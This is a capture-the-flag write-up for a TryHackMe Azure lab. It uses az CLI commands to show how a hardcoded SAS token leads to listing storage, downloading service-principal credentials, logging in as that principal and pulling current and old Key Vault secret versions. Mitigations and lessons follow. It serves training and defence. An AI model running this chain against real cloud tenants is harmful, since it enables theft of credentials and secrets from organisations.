







# 🏨 Hacker Holidays Day 9 – CryptoCabana (CTF Write-up)

<p align="center">


</p>

---

## 📌 Challenge Overview

> A cloud-based backup kiosk unintentionally exposes sensitive Azure storage access mechanisms. The objective is to identify misconfigurations, enumerate accessible resources, escalate privileges, and extract sensitive secrets from Azure Key Vault.

🔗 **Room Link:** https://tryhackme.com/room/hh-cryptocabana-f81cac95

---

## 📊 Challenge Information

| Attribute  | Details                              |
| ---------- | ------------------------------------ |
| Platform   | TryHackMe                            |
| Challenge  | Hacker Holidays Day 9 – CryptoCabana |
| Difficulty | Medium                               |
| Category   | Cloud Security                       |
| Target     | Microsoft Azure                      |

---

## 🎯 Objectives

* 🔎 Identify exposed Azure storage access mechanisms
* 📂 Enumerate accessible containers and sensitive files
* 🔐 Escalate privileges using exposed credentials
* 🗝️ Extract secrets from Azure Key Vault
* 🧾 Reconstruct the final flag

---

## 🧭 Attack Flow Overview



---

## 🔍 Enumeration & Initial Access

### 🌐 Exposed SAS Token

The application exposes a **Shared Access Signature (SAS)** token directly:

```
https://cryptocabanaf5scjagc.blob.core.windows.net/backups/...&sp=rl
```

* `sp=rl` → Grants **Read + List** permissions
* Long expiry (`2099`) → Indicates **poor access control hygiene**
* Enables unauthenticated enumeration of storage resources

📌 This is a classic **Azure Storage Misconfiguration**

---

### 🔎 Source Code Analysis

From `app.js`:

```javascript
const STORAGE_ACCOUNT = "cryptocabanaf5scjagc";
const BACKUPS_CONTAINER = "backups";
const BACKUP_SAS = "?sv=2022-11-02&ss=b&srt=sco&sp=rl..."
```

💡 **Security Insight:**

* Hardcoded SAS tokens in frontend code expose backend storage
* Violates **Zero Trust principles**

---

## ☁️ Azure Storage Enumeration

### 🔧 Environment Setup

```bash
ACCOUNT='cryptocabanaf5scjagc'
SAS='?sv=2022-11-02&ss=b&srt=sco&sp=rl...'
```

---

### 📦 List Containers

```bash
az storage container list \
  --account-name "$ACCOUNT" \
  --sas-token "$SAS" \
  --query '[].name' \
  --output table
```

**Result:**

```
$web
backups
vault
```
📸 *Screenshot:*


💡 Discovery of a **sensitive container (`vault`)** indicates improper segregation.

---

### 📂 Enumerate Vault Contents

```bash
az storage blob list \
  --account-name "$ACCOUNT" \
  --container-name 'vault' \
  --sas-token "$SAS" \
  --query '[].{Name:name,Size:properties.contentLength}' \
  --output table
```

📸 *Screenshot:*


**Key Findings:**

* `seed_phrase.txt`
* `backup-service-account.json`

---

## 📥 Data Exfiltration

### 🔑 Seed Phrase

```bash
az storage blob download ...
```

Output:

```
velvet cabana rebuild scatter ...
```
📸 *Screenshot:*


📌 Not immediately useful, but confirms sensitive data exposure.

---

### 🔐 Service Account Credentials

```bash
jq . backup-service-account.json
```

```json
{
  "client_id": "...",
  "client_secret": "...",
  "tenant_id": "...",
  "key_vault_name": "ccabana-kv-f5scjagc"
}
```

📸 *Screenshot:*


🚨 **Critical Finding:**

* Exposed **Service Principal credentials**
* Enables **full authentication into Azure environment**

---

## 🔑 Privilege Escalation – Azure Authentication

```bash
az login \
  --service-principal \
  --username "$CLIENT_ID" \
  --password "$CLIENT_SECRET" \
  --tenant "$TENANT_ID"
```

Verification:

```bash
az account show
```

Output:

```
"type": "servicePrincipal"
```
📸 *Screenshot:*


💡 This confirms **non-interactive privileged access**

---

## 🗝️ Azure Key Vault Enumeration

### 📜 List Secrets

```bash
az keyvault secret list \
  --vault-name "$VAULT_NAME"
```

**Secrets Identified:**

* key-shard-1
* key-shard-2
* key-shard-3
* master-key

---

### 🔍 Retrieve Secret Values

```bash
az keyvault secret show --name 'key-shard-1'
```

```
THM{####
```

```bash
az keyvault secret show --name 'key-shard-2'
```

```
Rotated... old value recoverable
```

```bash
az keyvault secret show --name 'key-shard-3'
```

```
######!}
```

---

## ♻️ Secret Version Exploitation

Azure Key Vault maintains **version history** for secrets.

### 📌 Key Weakness:

* Old versions are still accessible
* Rotation does not equal deletion

---

### 🔎 List Secret Versions

```bash
az keyvault secret list-versions \
  --name 'key-shard-2'
```
📸 *Screenshot:*

---

### 🔓 Retrieve Old Version

```bash
az keyvault secret show \
  --name 'key-shard-2' \
  --version '3d6492d2c6f74123bc754a9ded22b2a0'
```

Output:

```
_####_###_
```

---

## 🏁 Flag Reconstruction

Combine:

```
 key-shard-1,key-shard-2(old version),key-shard-3 value
```

✅ **Final Flag:**

```
Try yourself
```

---

## 🔐 Key Security Takeaways

* ❌ Hardcoded SAS tokens expose storage accounts
* ❌ Over-permissive SAS (`rl`) enables enumeration
* ❌ Sensitive files stored in public-accessible containers
* ❌ Service principal credentials leaked in storage
* ❌ Key Vault secrets accessible without proper RBAC restrictions
* ❌ Secret rotation without purging old versions is ineffective

---

## 🛡️ Mitigation Strategies

* ✅ Use **Azure Managed Identities** instead of static credentials
* ✅ Restrict SAS tokens (short expiry, minimal permissions)
* ✅ Enable **Private Endpoints** for storage accounts
* ✅ Implement **RBAC + Least Privilege**
* ✅ Disable or purge old Key Vault secret versions
* ✅ Avoid exposing secrets in client-side code

---


## 🔥 Key Lessons from This Attack

### 1. Cloud Misconfigurations Are Chainable

Individually, each issue seems minor:

* SAS exposure
* Credential leak
* Weak secret rotation

Combined, they lead to **full compromise**.

---

### 2. Storage Is Often the Weakest Entry Point

Azure Blob Storage frequently becomes:

* Publicly exposed
* Over-permissioned
* Used to store sensitive artifacts

---

### 3. Identity Is the Real Target

Once a **Service Principal** is compromised:

* The attacker becomes a trusted entity
* Detection becomes harder
* Lateral movement becomes trivial

---

### 4. Secret Rotation Must Include Version Control

Rotating secrets is not enough.

You must:

* Disable old versions
* Purge sensitive data
* Monitor access patterns

---

## 🛡️ How This Could Be Prevented

* Use **Managed Identities** instead of static credentials
* Restrict SAS tokens (minimal permissions, short expiry)
* Avoid exposing secrets in frontend code
* Apply **RBAC with least privilege**
* Restr storage via **Private Endpoints**
* Disable or purge old Key Vault secret versions

---

## 💭 Final Thoughts

This challenge perfectly demonstrates how **cloud security is not about isolated controls—but about controlling trust relationships**.

The attacker didn’t exploit a vulnerability in code.
They exploited **assumptions in architecture**.

And that’s what makes cloud security both powerful—and dangerous.


## 👨‍💻 Author

**Sudharsan Chandran**
Cybersecurity Engineer | Offensive Security | SIEM | Automation

---

📌 Reference snippet:

⭐ If you found this write-up helpful, consider giving it a star!